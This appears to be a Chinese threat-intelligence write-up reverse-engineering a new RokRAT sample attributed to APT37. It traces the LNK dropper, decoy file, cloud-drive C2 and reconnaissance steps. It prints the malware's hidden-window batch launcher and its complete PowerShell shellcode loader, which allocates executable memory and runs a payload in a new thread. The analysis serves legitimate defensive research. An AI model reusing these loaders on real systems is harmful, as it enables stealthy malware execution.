# APT37 组织主战远控武器 RokRAT，更新迭代部分执行流程 - 先知社区

APT37 组织主战远控武器 RokRAT，更新迭代部分执行流程

- - -

# 前言

新年好奥师傅们，希望今年大家都好一点。

从威胁情报渠道获取到比较新的 APT37 组织主战武器 RokRAT 样本，相比以往的 RokRAT 样本，此次样本在执行流程和细节上有了部分的更新迭代。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226000941-48375410-d3f8-1.png)

# 背景

APT37，别名 Group123、Venus 121、Reaper 等，是一个活跃的朝鲜黑客组织，其攻击活动开始于 2012 年。APT37 的主要攻击目标为朝鲜的地理邻国，包括韩国、日本、俄罗斯、中国等，其中对韩国的攻击活动最频繁。Rokrat 为该组织主战远控武器之一，其 C&C 位于几大公共云网盘上，分别是 Dropbox，Pcloud，Yandex 和 Box（主要是前两个）。Rokrat 通过内置的云盘账号的 Token 向云盘发起针对特定文件的下载、上传和删除等请求，以此实现与 C&C 通信

# 逆向分析

## 样本执行流程

初始载荷执行释放二阶段载荷，其中“.pdf”为迷惑性正常文件，在其他样本中可以是其他格式的文档文件，此样本中“.lnk”文件在释放完后会执行“.pdf”文件，让用户以为自己打开了正常文件。

“.lnk”文件执行结束后也会自删除。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226001034-67ea8cb4-d3f8-1.png)  
二阶段载荷执行，“working.bat”脚本调用 poershell 执行文本文件"temp.dat",创建线程执行 shellcode 二进制文件“public.dat”。shellcode 会在内存中释放执行 PE 文件，做系统基本信息搜集，完成对域名“api.pcloud.com”的请求，并处理后续下载来的后续载荷。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226001101-77dd8630-d3f8-1.png)

## 初始载荷程序释放、执行后续载荷

经过解压缩获取初始载荷文件是一个 lnk 文件，文件大小 221MB。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226001122-84cb5278-d3f8-1.png)  
修改后缀查看其快捷方式目标，目标文件是“%windir%\\SysWOW64\\cmd.exe”，并且有一系列参数。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226001146-92c6dec4-d3f8-1.png)  
文件属性 - 快捷方式 - “目标”值有长度限制，过长被截断了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226001202-9c4503cc-d3f8-1.png)  
在文件 ascll 流里可以找到完整的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226001221-a7c87e72-d3f8-1.png)  
拿出来整理一下，是一个通过powershell调用C#的嵌入代码的脚本。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226001237-b1433b9a-d3f8-1.png)  
初始载荷执行并且释放了一列后续载荷，梳理详细功能如下。

-   以隐藏属性打开cmd窗口，指定路径递归寻找powershell.exe脚本执行嵌入的C#代码。
-   在动态链接库 User32.dll 中调用 FindWindow 和 ShowWindow 函数，过调用 FindWindow 函数查找名为"powershell.exe"的窗口，并通过 ShowWindow 函数隐藏该窗口。
-   获取当前目录路径，如果路径包含"System32"或"Program Files"，则将一个参数目录路径设置为"%temp%"。
-   用地址偏移的方法在当前 lnk 文件定位载荷，新建数组存储并释放成文件。
    1.  在 lnk 文件相同路径释放'【lnk 同名】.hwp'文件，并且执行。
    2.  在%public%路径释放'public.dat'文件。
    3.  在%temp%路径释放'temp.dat'文件。
    4.  在%temp%路径释放'working.bat'文件。
-   执行"working.bat"文件。
-   关闭.lnk 文件。
-   删除原始.lnk 文件。

## shellcode 加载准备阶段

初始载荷释放并且执行了"working.bat"，这个“.bat”脚本就是后续载荷执行的起点了。"working.bat"内容如下，功能为创建隐藏窗口 powershell 进程，读取“temp.dat”文本文件并放入内存中执行。

```bash
start /min C:\Windows\SysWow64\WindowsPowerShell\v1.0\powershell.exe -windowstyle hidden 
"$stringPath=$env:temp+'\'+'temp.dat';
$stringByte = Get-Content -path $stringPath -encoding byte;
$string = [System.Text.Encoding]::UTF8.GetString($stringByte);
$scriptBlock = [scriptblock]::Create($string);
&$scriptBlock;
"
```

“temp.dat”脚本内容如下，此脚本也是一个典型的 shellcode 加载和执行的过程，读取 public.dat 文件中的二进制数据，然后在内存中分配空间，将数据写入该空间，最后创建一个线程来执行这段内存中的代码。

详细功能描述写成注释在代码中。

```bash
## 构建 public.dat 文件的完整路径，并读取 public.dat 文件的二进制内容。
$exePath=$env:public+'\'+'public.dat';
$exeFile = Get-Content -path $exePath -encoding byte;
 [Net.ServicePointManager]::SecurityProtocol = [Enum]::ToObject([Net.SecurityProtocolType], 3072);
## windowsAPI 函数的声明，并通过 Add-Type 添加到 PowerShell 环境中
$k1123 = [System.Text.Encoding]::UTF8.GetString(34) + 'kernel32.dll' + [System.Text.Encoding]::UTF8.GetString(34);
$a90234s = '[DllImport(' + $k1123 + ')]public static extern IntPtr GlobalAlloc(uint b,uint c);';
$b = Add-Type -MemberDefinition $a90234s  -Name 'AAA' -PassThru;
$d3s9sdf = '[DllImport(' + $k1123 + ')]public static extern bool VirtualProtect(IntPtr a,uint b,uint c,out IntPtr d);';
$a90234sb = Add-Type -MemberDefinition $d3s9sdf -Name 'AAB' -PassThru;
$b3s9s03sfse = '[DllImport(' + $k1123 + ')]public static extern IntPtr CreateThread(IntPtr a,uint b,IntPtr c,IntPtr d,uint e,IntPtr f);';
$cake3sd23 = Add-Type -MemberDefinition $b3s9s03sfse  -Name 'BBB' -PassThru;
$dtts9s03sd23 = '[DllImport(' + $k1123 + ')]public static extern IntPtr WaitForSingleObject(IntPtr a,uint b);';
$fried3sd23 = Add-Type -MemberDefinition $dtts9s03sd23 -Name 'DDD' -PassThru;
##  获取 public.dat 文件的字节数。
$byteCount = $exeFile.Length;
##  在内存中分配空间
$buffer = $b::GlobalAlloc(0x0040, $byteCount + 0x100);
$old = 0;
##  修改内存区域的保护属性，将其设置为可执行。
$a90234sb::VirtualProtect($buffer, $byteCount + 0x100, 0x40, [ref]$old);
## 将 public.dat 文件的内容写入分配的内存空间中
 for($i = 0;
$i -lt $byteCount;
$i++) { [System.Runtime.InteropServices.Marshal]::WriteByte($buffer, $i, $exeFile[$i]);
 };
 ## 创建一个线程，将分配的内存区域的地址作为线程的入口点。
$handle = $cake3sd23::CreateThread(0, 0, $buffer, 0, 0, 0);

## 等待线程执行完毕，最多等待 500 秒。
$fried3sd23::WaitForSingleObject($handle, 500 * 1000);
```

## SHELLCODE 执行

shellcode 如下，长度 889,858 字节。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226001347-dad8aab2-d3f8-1.png)  
按照“temp.dat”脚本思路，编写一个 shellocde 加载器，该函数正常执行结束后会步入 shellcode 代码段。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226001404-e5223ede-d3f8-1.png)  
动态调试查看读进内存的 shellcode 流。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226001426-f28484ba-d3f8-1.png)  
shellcode 继续执行，以 ror 右移等解密方法循环解密 windowsAPI 函数名。并且通过异或等方法解密了一个 PE 文件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226001458-059871a6-d3f9-1.png)  
动态调试异或解密 PE 文件如图。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226001508-0b3d3948-d3f9-1.png)  
随后开辟新的内存空间，分段将 PE 内存复制一遍。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226001640-41f87f60-d3f9-1.png)

调用函数 LoadLibraryA（KERNEL32.dll）库，循环获取 windowsAPI 地址。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226001651-48d1632e-d3f9-1.png)  
函数执行打扫清理工作，并且通过覆盖 PE 文件起始段破坏了 PE 文件的结构。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226001711-5481e0b8-d3f9-1.png)  
动态调试查看被覆盖了前 64 字节内存状况（上），与正常内存（下）比对。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226001723-5bc5b64c-d3f9-1.png)  
shellcode 程序并没有从 PE 文件起始处开始执行，而是将地址 0x71B375（PE 文件起始地址 0x6E0000）赋值在 ECX 寄存器中调用。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226001734-6292ea62-d3f9-1.png)  
将 PE 文件所在的内存模块完整 dump 下来，定位到函数调用位置。实际上就是 PE 程序入口点。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226001756-6f826e64-d3f9-1.png)  
反汇编一下就很清晰了，标准的 Microsoft Visual C/C++(19.00.24210) 编译“C++”程序的 start 函数入口点。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226001807-763cdb4a-d3f9-1.png)  
接下来就是执行这个解密的 PE 程序了。

## 执行 shellcode 解密的 PE 文件

### 系统基本信息搜集

定位到程序主函数如图，执行流程不长，逐步调试分析。首先是样本做信息搜集并将内容上传到云盘 C&C。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240226001900-95adee7e-d3f9-1.png)  
继续执行解密到 user-agent。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226002014-c188811c-d3f9-1.png)  
动态调试查看内存状态。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226002048-d62261ce-d3f9-1.png)

```bash
Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)
```

加载相应 dll，调用 windowsAPI，RtlGetVersion 获取操作系统版本信息。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226002103-deb2a2fe-d3f9-1.png)

-   主版本号 (dwMajorVersion)：6 Windows7 的主版本号是 6。
-   次版本号 (dwMinorVersion)：1 次版本号为 1 表示 Windows 7 的版本。
-   内部版本号 (dwBuildNumber)：7601 内部版本号 7601 是 Windows 7 Service Pack 1 (SP1) 的内部版本号。  
    获取 vmtoolsd.exe 文件版本号。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226002149-fa78f81c-d3f9-1.png)  
检查当前进程是否为 32 位应用程序在 64 位 Windows 操作系统上运行，如果是则做相应的系统信息搜集。包括计算机名称、用户名、当前程序路径、BIOS 部分信息等。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226002325-33bf3a3c-d3fa-1.png)  
生成随机数 RAND 拼接路径 C:\\Windows\\RandData.dat，如果目标文件存在则删除文件。有管理员权限判断功能。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226002338-3b8340e2-d3fa-1.png)

### 外连请求

创建线程函数执行，循环构造 http 请求目标域名“api.pcloud.com”。URL 硬编码与样本中。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226002418-530843de-d3fa-1.png)  
线程调用 WinHttpOpen、WinHttpOpenRequest、WinHttpAddRequestHeaders 等函数来初始化和配置请求。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226002616-999e4b90-d3fa-1.png)  
配置 http 请求超时控制。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226002638-a65bc54c-d3fa-1.png)  
调用 WinHttpAddRequestHeaders 函数做 Header 配置，Token 字段在 Authorization 中，内存状态如图。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226002707-b798f582-d3fa-1.png)  
请求头如下。

```bash
User-Agent: Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8
Authorization: Bearer DOAD**********************wSO7
```

```bash
User-Agent: Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8
Authorization: OAuth y*_Ag*********************1QV3g
Content-Type: application/json
```

下载到后续资源后做处理。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240226002720-bf838442-d3fa-1.png)

样本在受害服务器上布控的初始阶段就结束了。
